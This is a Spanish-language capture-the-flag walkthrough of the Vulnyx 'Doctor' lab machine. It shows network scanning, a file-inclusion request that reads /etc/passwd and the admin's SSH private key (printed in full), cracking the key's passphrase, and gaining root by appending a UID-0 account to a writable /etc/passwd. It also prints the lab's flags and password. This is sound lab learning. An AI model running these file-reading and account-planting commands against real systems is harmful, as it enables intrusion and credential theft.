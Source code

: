 #linux
#Puerto80 
#puerto22
#PathTraversal 
#DirectoryTraversal
#escaladaPrivilegios 
#hash
#RSAcrack



https://vulnyx.com/
Mirror: [mega.nz/file/Ie5w0JjJ#uVXwMBWLAQKc04metFBHozlPYfnXfYttuGU_7de_69M](https://mega.nz/file/Ie5w0JjJ#uVXwMBWLAQKc04metFBHozlPYfnXfYttuGU_7de_69M)

Mirror, download:
![[Vulnyx - Doctor - img.png]]


## Reconocimiento en la red
![[Vulnyx - Doctor - IP.png]]

sudo arp-scan -I eth0 --localnet

![[Vulnyx - Doctor - Arp-scan.png]]
IP: 192.168.1.139
Ping
![[Vulnyx - Doctor - Ping.png]]

TTL=64 --> Linux

# Reconocimiento

## Nmap

sudo nmap -sS -p- -Pn 192.168.1.139 
![[Vulnyx - Doctor - Nmap.png]]


Nmap Scrip
al 80:
sudo nmap --script "vuln" -p80 192.168.1.139
![[Vulnyx - Doctor - Nmap script 80.png]]


al 22:
sudo nmap --script "vuln" -p22 192.168.1.139

![[Vulnyx - Doctor - Nmap script 22.png]]


No encuentro nada en metasploit para atacar estas vulnerabilidades.
vemos la web que corre en el puerto 80:

![[Vulnyx - Doctor - Web default.png]]

Vamos a hacer ffuf para ver si encontramos algo interesante:


encontramos esta URL:
![[Vulnyx - Doctor - Web URL.png]]http://192.168.1.139/doctor-item.php?include=Doctors.html
y vemos que tiene un include:
le hacemos una peticion curl:
curl -s -X GET "http://192.168.1.139/doctor-item.php?include=/etc/passwd" 


![[Vulnyx - Doctor - curl + user.png]]


Usuario: admin
Conseguimos el id_rsa a través de curl:
curl -s -X GET "http://192.168.1.139/doctor-item.php?include=/home/admin/.ssh/id_rsa"

-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,9FB14B3F3D04E90E

uuQm2CFIe/eZT5pNyQ6+K1Uap/FYWcsEklzONt+x4AO6FmjFmR8RUpwMHurmbRC6
hqyoiv8vgpQgQRPYMzJ3QgS9kUCGdgC5+cXlNCST/GKQOS4QMQMUTacjZZ8EJzoe
o7+7tCB8Zk/sW7b8c3m4Cz0CmE5mut8ZyuTnB0SAlGAQfZjqsldugHjZ1t17mldb
+gzWGBUmKTOLO/gcuAZC+Tj+BoGkb2gneiMA85oJX6y/dqq4Ir10Qom+0tOFsuot
b7A9XTubgElslUEm8fGW64kX3x3LtXRsoR12n+krZ6T+IOTzThMWExR1Wxp4Ub/k
HtXTzdvDQBbgBf4h08qyCOxGEaVZHKaV/ynGnOv0zhlZ+z163SjppVPK07H4bdLg
9SC1omYunvJgunMS0ATC8uAWzoQ5Iz5ka0h+NOofUrVtfJZ/OnhtMKW+M948EgnY
zh7Ffq1KlMjZHxnIS3bdcl4MFV0F3Hpx+iDukvyfeeWKuoeUuvzNfVKVPZKqyaJu
rRqnxYW/fzdJm+8XViMQccgQAaZ+Zb2rVW0gyifsEigxShdaT5PGdJFKKVLS+bD1
tHBy6UOhKCn3H8edtXwvZN+9PDGDzUcEpr9xYCLkmH+hcr06ypUtlu9UrePLh/Xs
94KATK4joOIW7O8GnPdKBiI+3Hk0qakL1kyYQVBtMjKTyEM8yRcssGZr/MdVnYWm
VD5pEdAybKBfBG/xVu2CR378BRKzlJkiyqRjXQLoFMVDz3I30RpjbpfYQs2Dm2M7
Mb26wNQW4ff7qe30K/Ixrm7MfkJPzueQlSi94IHXaPvl4vyCoPLW89JzsNDsvG8P
hrkWRpPIwpzKdtMPwQbkPu4ykqgKkYYRmVlfX8oeis3C1hCjqvp3Lth0QDI+7Shr
Fb5w0n0qfDT4o03U1Pun2iqdI4M+iDZUF4S0BD3xA/zp+d98NnGlRqMmJK+StmqR
IIk3DRRkvMxxCm12g2DotRUgT2+mgaZ3nq55eqzXRh0U1P5QfhO+V8WzbVzhP6+R
MtqgW1L0iAgB4CnTIud6DpXQtR9l//9alrXa+4nWcDW2GoKjljxOKNK8jXs58SnS
62LrvcNZVokZjql8Xi7xL0XbEk0gtpItLtX7xAHLFTVZt4UH6csOcwq5vvJAGh69
Q/ikz5XmyQ+wDwQEQDzNeOj9zBh1+1zrdmt0m7hI5WnIJakEM2vqCqluN5CEs4u8
p1ia+meL0JVlLobfnUgxi3Qzm9SF2pifQdePVU4GXGhIOBUf34bts0iEIDf+qx2C
pwxoAe1tMmInlZfR2sKVlIeHIBfHq/hPf2PHvU0cpz7MzfY36x9ufZc5MH2JDT8X
KREAJ3S0pMplP/ZcXjRLOlESQXeUQ2yvb61m+zphg0QjWH131gnaBIhVIj1nLnTa
i99+vYdwe8+8nJq4/WXhkN+VTYXndET2H0fFNTFAqbk2HGy6+6qS/4Q6DVVxTHdp
4Dg2QRnRTjp74dQ1NZ7juucvW7DBFE+CK80dkrr9yFyybVUqBwHrmmQVFGLkS2I/
8kOVjIjFKkGQ4rNRWKVoo/HaRoI/f2G6tbEiOVclUMT8iutAg8S4VA==
-----END RSA PRIVATE KEY-----

![[Vulnyx - Doctor - Id_RSA.png]]




lo guardamos en un fichero:
![[Vulnyx - Doctor - idRSAA in a file.png]]
le damos permisos de escritura y ejecucion al fichero
chmod +xw id_rsa

![[Vulnyx - Doctor - id_rsa file.png]]

ahora vamos a udar este fichero para conectar por ssh con el usuario admin

ssh -i id_rsa admin@192.168.1.139
pero nos sale el siguiente mensaje:
Permissions 0755 for 'id_rsa' are too open.
![[Vulnyx - Doctor - permissos incorrectos para el fichero.png]]
volvemos a cambiar los permisos al documento id_rsa:
chmod 600 id_rsa
![[Vulnyx - Doctor - change id_rsa permissions.png]]
y volvemos aintentar conectar:


![[Vulnyx - Doctor - Ssh connection key for id_rsa.png]]


clonamos esta herramienta de este repo:
git clone https://github.com/d4t4s3c/RSAcrack.git


![[Vulnyx - Doctor -  Cambiamos los permisos a RSAcrack.png]]
Le damos permiso de ejecucion a la herramienta y la ejecutamos

./RSAcrack -w /usr/share/wordlists/rockyou.txt -k {rsafile}

![[Vulnyx - Doctor - RSACrack.png]]
y encontramos una contraseña:
![[Vulnyx - Doctor - RSAcrack saca la contraseña.png]]

admin: unicornio
vovemos a intentar hacer el ssh y accedemos ocn la contraseña encontrada:
![[Vulnyx - Doctor - ssh access.png]]


user flag: 0819e6dfb35db7c61353e4dce311b397

![[Vulnyx - Doctor - User flag.png]]

# Escalada de privilegios

ejecutamols:
find / -writable -type f 2>/dev/null |grep '/etc/passwd' && ls -lah /etc/passwd

![[Vulnyx - Doctor - Escalada.png]]
Vemos que el archivo passwd es writeable:


para vulnerasr esto primer generamos una contraseña:
openssl passwd 123456


![[Vulnyx - Doctor - Genrate passrod.png]]

Luego lo agregamos al fichero passwd como root2
echo "root2:2quasw1hUYYNw:0:0;root:/root:/bin/bash" >> /etc/passwd
o mejor entramos con nano /etc/passwd y cambiamos la contraseña del root a mano:


![[Vulnyx - Doctor - Editar fichero passwd en etc.png]]

luego hacemos su y ponemos la contraseña que hemos creado : 123456
![[Vulnyx - Doctor - Root user.png]]

root flag: dfde8cc67ed8819b2386dc74e472ecc6

![[Vulnyx - Doctor - root falg.png]]
